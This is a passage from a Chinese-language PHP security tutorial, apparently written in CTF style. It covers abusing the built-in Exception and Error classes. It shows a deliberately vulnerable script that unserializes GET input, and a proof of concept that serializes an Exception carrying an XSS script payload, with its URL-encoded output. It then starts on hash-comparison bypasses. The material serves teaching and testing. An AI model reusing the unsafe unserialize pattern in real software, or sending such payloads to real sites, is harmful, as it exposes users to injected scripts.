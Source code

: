 ### Exception 内置类

-   适用于php5、7版本
-   开启报错的情况下

测试代码：

```
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```

给出POC：

```
<?php
$a = new Exception("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>

//输出: O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

## 使用 Error/Exception 内置类绕过哈希比较

在上文中，我们已经认识了Error和Exception这两个PHP内置类，但对他们妙用不仅限于 XSS，还可以通过巧妙的构造绕过md5()函数和sha1()函数的比较。这里我们就要详细的说一下这个两个错误类了。

### Error 类

**Error** 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。

**类摘要：**

```
Error implements Throwable {
    /* 属性 */
    protected string $message ;
    protected int $code ;
    protected string $file ;
    protected int $line ;
    /* 方法 */
    public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
    final public getMessage ( ) : string
    final public getPrevious ( ) : Throwable
    final public getCode ( ) : mixed
    final public getFile ( ) : string
    final public getLine ( ) : int
    final public getTrace ( ) : array
    final public getTraceAsString ( ) : string
    public __toString ( ) : string
    final private __clone ( ) : void
}
```
